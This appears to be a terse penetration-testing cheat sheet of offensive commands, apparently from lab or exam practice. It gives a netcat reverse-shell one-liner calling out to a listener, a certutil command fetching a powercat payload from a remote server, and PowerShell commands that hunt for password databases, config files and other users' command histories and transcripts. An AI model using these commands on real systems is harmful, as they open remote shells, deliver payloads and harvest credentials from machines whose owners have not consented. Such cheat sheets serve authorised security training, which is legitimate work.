 nc reverseshell bash:
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.0.4 1234 >/tmp/f
download:
certutil -urlcache -f http://192.168.45.248:8000/powercat.ps1 c:/windows/temp/test

find .git files
```
Get-ChildItem . -Attributes Directory+Hidden -ErrorAction SilentlyContinue -Filter ".git" -Recurse
```
grep like powershell
```
Get-ChildItem -Recurse | Select-String "dummy" -List | Select Path
```

```
whoami /priv
```
```
Get-ChildItem -Path C:\ -Include *.conf,*.config,*.kdbx,*.log -File -Recurse -ErrorAction SilentlyContinue
```
```
Get-ChildItem -Path C:\xampp -Include *.txt,*.ini -File -Recurse -ErrorAction SilentlyContinue
```
```
Get-ChildItem -Path C:\Users\ -Include *.log,*.conf,*.config,*.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue
```
```
(Get-PSReadlineOption).HistorySavePath
```
```
type C:\Users\*\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```
```
type C:\Users\*\Transcripts\transcript01.txt
```
